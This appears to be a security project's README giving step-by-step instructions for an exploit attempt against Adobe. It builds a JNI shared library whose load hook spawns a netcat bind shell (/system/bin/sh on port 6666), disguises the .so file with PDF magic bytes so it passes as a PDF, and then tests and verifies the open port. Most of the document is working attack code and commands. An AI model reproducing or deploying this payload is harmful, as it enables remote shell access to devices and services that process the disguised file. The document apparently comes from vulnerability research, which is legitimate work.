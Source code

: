 ## Notes

The .so file must be prefixed with `lib` and have the extension `.so` in order to be loaded by the JVM. For example, `libhello.so` is loaded by `System.loadLibrary("hello")`.

## How it works?

### Step 1.

First create the code that will be compiled into the library code. We have the code stored in code.c.

```C
#include <jni.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

JNIEXPORT jint JNI_OnLoad(JavaVM* vm, void* reserved) {

    if (fork() == 0) {
        system("toybox nc -p 6666 -L /system/bin/sh -l");
    }
    JNIEnv* env;
    if ((*vm)->GetEnv(vm, (void**)&env, JNI_VERSION_1_6) != JNI_OK) {
        return JNI_ERR;
    }
    return JNI_VERSION_1_6;
}
```

### Step 2.

Compile C code into shared library binary code. This is the file we will send to Adobe in attempt to exploit it.

```bash
gcc -shared -fPIC -I/usr/lib/jvm/default-java/include -I/usr/lib/jvm/default-java/include/linux -o libs/libopen_cv.so code.c
```

Edit the binary of the file to add the magic PDF bytes so Adobe will accept it as a PDF file.

```bash
hexedit libopen_cv.so
```

![Hex Editor](images/hex.png)

### Step 3.

For testing we have this Java code that will load and thus run the .so code in a sandbox.

```Java
public class Test {
    static {
        System.loadLibrary("opencv_info");
    }
    public static native void JNI_OnLoad();

    public static void main(String[] args) {
        System.out.print("RUNNING");
    }
}
```

### Step 4.

We compiled the Java code using the following command.

```bash
javac Test.java
```

### Step 5.

Run the Java program which will call the .so and thus open a port on 6666 on the device.

```bash
java -Djava.library.path=/home/kali/Desktop/code/libs Test
```

### Step 6.

To check if successful (besides an error log), we used a netstat command. If you see the port 6666 is open that means the shared library file was executed and thus you can run a reverse shell.

```bash
netstat -tuln
```

### Step 7.

To see which process is using the port 6666, so we can reset if needed.

```bash
lsof -i :6666
```

Kill the process to restart.

```bash
kill [PID]
```
